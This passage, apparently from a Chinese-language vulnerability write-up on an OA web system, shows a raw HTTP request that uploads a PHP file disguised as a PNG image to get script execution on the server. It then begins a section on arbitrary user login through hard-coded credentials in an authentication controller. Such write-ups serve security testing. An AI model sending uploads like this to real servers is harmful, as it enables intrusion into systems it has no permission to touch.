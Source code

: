 ```bash
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/upload/upload.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryQayVsySyhSwgpmLk
Content-Disposition: form-data; name="FileData"; filename="222.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryQayVsySyhSwgpmLk--
```

## 任意用户登录

在上传的篇章中其实是可以知道架构的，所以看了下`oa`​下的文件，发现`Auth`​的鉴权控制器查看后发现存在硬编码

[![](assets/1709083162-d1aef611e87e15d28cc52a35f25d0993.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227110348-d4089916-d51c-1.png)
